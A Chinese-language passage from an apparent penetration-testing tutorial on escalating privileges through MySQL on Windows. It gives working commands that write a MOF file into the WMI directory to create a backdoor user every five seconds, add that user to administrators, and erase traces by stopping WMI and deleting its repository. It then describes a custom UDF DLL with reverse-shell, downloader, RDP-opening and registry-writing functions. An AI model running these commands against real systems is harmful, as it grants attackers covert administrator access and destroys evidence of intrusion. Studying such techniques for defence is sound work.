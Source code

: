 利用这个文件每五秒创建来创建一个新的user为DawnT0wn的用户

因为能够连接到MySQL，直接执行如下命令

```
select load_file("D:/nullevt.mof") into dumpfile "c:/windows/system32/wbem/mof/nullevt.mof"
```

这里直接把我D盘的nullevt.mof上传到其目录下

注意这里不能使用`outfile`，因为会在末端写入新行，因此`mof`在被当作二进制文件无法正常执行，所以我们用`dumpfile`导出一行数据

将创建的用户加入administrator

```
net.exe user localgroup administrator DawnT0wn /add\
```

因为这个每5s就会创建一个新的用户，所以我们要想办法抹去痕迹

```
net stop winmgmt
net user DawnT0wn /delete
del c:/windows/system32/wbem/repository
net start winmgmt
```

## Mysql反弹端口提权

其实这也是udf提权的一种方式

- 我们所使用的这个udf.dll是被定制过的，其中定义了以下函数
- 部分函数说明：
  1. cmdshell：执行cmd
  2. downloader：下载者，到网上下载指定文件并保存到指定目录
  3. open3389：通用开3389终端服务，可指定端口（不改端口无需重启）
  4. backshell：反弹shell（本次文章主角）
  5. ProcessView：枚举系统进程
  6. KillProcess：终止指定进程
  7. regread：读注册表
  8. regwrite：写注册表
  9. shut：关机、注销、重启
  10. about：说明与帮助函数

但是他这里的定制的udf.dll需要自己去写，所以会有很长的exp，在附件里面，另外暗月的木马我也会通过附件发出来

主要还是连接上了mysql或者phpmyadmin执行SQL语句

只是在创建函数的时候执行了应该反弹shell的backshell函数

但是这里我执行sql语句的时候并没有把内容写到udf.dll，所以我就直接用winhex做了这个udf.dll上传

![image-20220321212552919](images/24.png)
